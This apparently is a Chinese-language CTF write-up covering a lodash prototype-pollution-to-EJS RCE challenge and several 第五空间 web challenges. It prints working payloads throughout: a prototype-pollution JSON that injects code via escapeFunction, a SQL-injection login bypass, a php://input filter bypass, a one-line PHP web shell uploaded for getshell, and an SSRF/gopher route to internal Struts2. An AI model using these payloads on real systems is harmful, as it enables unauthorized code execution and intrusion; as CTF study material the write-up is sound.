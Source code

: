 ### hardjs

Express应用，看了一遍源码就知道是prototype原型链污染，猜测是RCE或者和MySQL交互，奈何不会做

通过node的package_lock找到lodash版本，找到一个CVE

https://snyk.io/vuln/SNYK-JS-LODASH-450202

但是当时卡在`newContent[req.body.type] = [ req.body.content ]`这里强行包裹了array好像和POC不一样，本地测试了几次失败了以为得绕过这里。最后才知道`locash.defaultsDeep`是会递归操作的

然后就是正常思路污染原型链，通过JSON可以污染到string或int或array等属性，所以需要找到一个eval动态执行的地方才能达到RCE，通过动态的模版库ejs

看源码找到一个拼接的地方，然后就可以注入代码了

payload：

```
{"type":"x","content":{"constructor": {"prototype": {"client": true,"escapeFunction": "1; return
process.env.FLAG"}}}
```

发包五次访问首页，触发defaultDeep，然后再访问模版渲染的地方也就是登录注册页即可get flag

（所以那个sandbox是干嘛用的）

***

## 第五空间大赛

体验极差的比赛，脑洞题+菜运维+破平台

### 空相

?id=1'

### 五叶

万能密码，脑洞，必须得select出admin那条数据

`user=admin&password=1')||username like 'admin'-- -`

### 空性

.swp文件泄露，简单审计，通过php://input绕过

`?fname=php://filter` 

POST: `whoami`

来到后台文件上传，发现`?file`参数包含了同目录一个文件，fuzz（脑洞）发现只能包含html文件，且需去掉后缀

上传一个html文件：`<?php $f = $_GET[f]; $f($_GET[s]); ?>`，包含：`?file=upload/xxxxxxxx`，成功getshell

### 六尘

正解，通过SSRF扫描端口，发现8080开了tomcat，title为apache tomcat 8.0.53

通过gopher攻击内网的struts2
